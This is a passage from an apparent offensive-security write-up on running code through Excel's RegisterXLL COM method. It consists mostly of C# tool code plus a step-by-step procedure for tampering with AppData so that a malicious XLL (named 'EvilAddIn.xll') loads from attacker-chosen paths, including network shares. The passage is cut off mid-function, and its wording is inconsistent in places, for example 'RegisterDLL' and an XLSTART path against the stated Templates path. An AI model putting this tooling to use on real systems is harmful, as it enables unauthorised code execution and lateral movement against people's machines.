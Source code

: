 ```cs
            File.Copy(filePath, fakeFilePath);
        }

        Exception regXLLex = null;
        try
        {
            obj.GetType().InvokeMember("RegisterXLL", BindingFlags.InvokeMethod, null, obj,
                new object[] { fakeFilePath });
            var exe = Activator.CreateInstance(type);
        }
        catch (Exception e)
        {
            regXLLex = e;
        }
        // Cleaning Up
        if (File.Exists(fakePath))
        {
            File.Delete(fakePath);
        }

        // An exception was raised before, re-raising it
        if (regXLLex != null)
        {
            Console.WriteLine($" [x] ERROR: RegisterXLL threw {regXLLex.Message}");
        }

    }
    catch (Exception e)
    {
        Console.WriteLine(" [x] {0}", e.Message);
    }
}
```

However, in the context of local execution, it's possible to go a step further. As the user has access to its own variables as well, it's very easy to tamper the AppData value as well, just before the call to RegisterXLL. This would allow to load custom XLL from arbitrary locations (!!! **this includes drive-mapped network shares** !!!). 

The process to operate this bypass is simple:

1. Change AppData to a user controlled directory (e.g. `C:\Windows\Temp`)
2. Create the path %AppData%\Microsoft\Templates (`C:\Windows\Temp\Microsoft\Templates`)
3. Move the XLL into the folder (`C:\Windows\Temp\Microsoft\Templates\EvilAddIn.xll`)
4. Call RegisterDLL on the XLL file

The following C# code would do exactly that:

```cs
public static void ExcelXLL(string target, string binary, string args = null)
{
    if (!File.Exists(binary))
    {
        Console.WriteLine(" [x] XLL not found");
        return;
    }

    string absPath = Path.GetFullPath(binary);
    string path = Path.GetDirectoryName(absPath);
    string fakePath = Path.Combine(path, "Microsoft\\Excel\\XLSTART");
    string filePath = binary;
    string fakeFilePath = Path.Combine(fakePath, Path.GetFileNameWithoutExtension(Path.GetRandomFileName()) + ".xll");

    if (target != Environment.MachineName)
```